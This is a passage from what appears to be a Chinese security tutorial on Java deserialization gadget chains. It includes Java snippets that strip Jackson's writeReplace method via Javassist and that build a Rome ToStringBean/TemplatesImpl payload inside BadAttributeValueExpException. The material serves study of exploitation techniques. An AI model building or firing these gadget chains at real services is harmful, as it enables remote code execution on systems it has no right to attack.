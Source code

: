 嫌麻烦的话直接引入 `springframework.boot.spring.starter.web`依赖就行

#### getter 调用顺序不稳定及解决方式

这一块已经有师傅写过相关文章，我也就不做重复劳动了

问题原因： [https://mp.weixin.qq.com/s/XrAD1Q09mJ-95OXI2KaS9Q](https://mp.weixin.qq.com/s/XrAD1Q09mJ-95OXI2KaS9Q)

解决方式： [https://xz.aliyun.com/t/12846](https://xz.aliyun.com/t/12846)

值得一提的是，Jackson 结合 LDAPAttribute 使用的时候不需要这部分操作，**如果添加了反而会出错（当然**

#### 删除 writeplace() 方法

这一块也早就有很多师傅提过，但因为是一个很小的点，并没有专门分析的文章，不太好直接扔个链接，我也就干脆顺便提一下

在 Java 对象的序列化流程中，如果其类（或父类）拥有 writeReplace 方法（字面意思，writeObject 替代）就会走到类自己的序列化逻辑

Jackson 中的 POJONode 类就满足这个条件，在序列化的时候便会发生报错（Jackson 序列化和 Java 原生序列化的数据自然是不同的）

解决这个问题有多种思路，我们直接使用 Javaassist 字节码修改工具，删除 BaseJsonNode 类中的 writeReplace 方法即可

```bash
CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();
```

### Rome

Rome 1.12.0 之前都可以用，注意 1.0 和后续版本中 beanClass、obj 的属性名有差别（低版本属性名前会有一个下划线 `_` ）

#### TemplatesImpl

Rome 结合 TemplatesImpl 利用时存在和 Jackson 相似的问题，可能会在调用别的 getter 时报错而提前终止流程

这里也是采用相似的解决思路，使用 Rome 时可以直接在 ToStringBean 里指定从哪个类里获取 getter，操作起来很简单

```bash
Object templatesImpl = null;
        ToStringBean toStringBean = new ToStringBean(Templates.class,templatesImpl); //在这里指定了从 templates.class 接口里去获取 getter，
                                                                              //其中只有一个 getter：getOutputProperties()
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,toStringBean);
        serialize(badAttributeValueExpException);       
        unserialize("ser.bin");
```

#### JdbcRowSetImpl
